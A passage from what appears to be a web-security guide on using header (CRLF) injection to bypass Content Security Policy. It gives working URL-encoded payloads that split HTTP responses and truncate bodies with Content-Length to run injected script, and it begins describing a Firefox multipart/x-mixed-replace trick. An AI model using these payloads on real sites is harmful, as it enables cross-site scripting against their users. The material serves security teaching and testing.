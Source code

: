 > Uncaught SyntaxError: Unexpected identifier `'html'`

It quickly throws an error, because of the suffix content from the original uninjected page. The trick to solving this shared by [@siunam321](https://x.com/siunam321/status/1962525358680604980), is to add a small `Content-Length:` header that cuts off the body right after our payload:

<pre class="language-http"><code class="lang-http">HTTP/1.1 200 OK
X-Inject: x
Content-Type: text/javascript
<strong>Content-Length: 13
</strong>
alert(origin)
</code></pre>

This will execute successfully, so the final payload starting from the initial HTML page with a CSP becomes:

{% code title="URL" overflow="wrap" %}
```url
/vuln?inject=x%0D%0AContent-Type:%20text/html%0D%0A%0D%0A%3Cscript%20src=%22%2Fvuln%3Finject%3Dx%250D%250AContent-Type:%2520application%2Fjavascript%250D%250AContent-Length%3A%252013%250D%250A%250D%250Aalert%28origin%29%22%3E%3C/script%3E
```
{% endcode %}

{% code title="HTTP Response" %}
```http
HTTP/1.1 200 OK
X-Inject: x
Content-Type: text/html

<script src="/vuln?inject=x%0D%0AContent-Type:%20application/javascript%0D%0AContent-Length:%2013%0D%0A%0D%0Aalert(origin)"></script>
```
{% endcode %}

#### Firefox replace CSP

But specifically in Firefox there is another trick that can almost _redefine_ the policy. [Issue 1864434](https://bugzilla.mozilla.org/show_bug.cgi?id=1864434) tracks this behavior where using the special `multipart/x-mixed-replace` content type, the body has the following structure:

<pre class="language-http"><code class="lang-http">HTTP/1.1 200 OK
Content-Type: multipart/x-mixed-replace; boundary=BOUNDARY

<strong>--BOUNDARY
</strong><strong>Content-Type: text/html
</strong><strong>
</strong><strong>&#x3C;h1>First&#x3C;/h1>
</strong><strong>--BOUNDARY
</strong><strong>Content-Type: text/plain
</strong><strong>
</strong><strong>Second message
</strong><strong>--BOUNDARY--
</strong></code></pre>
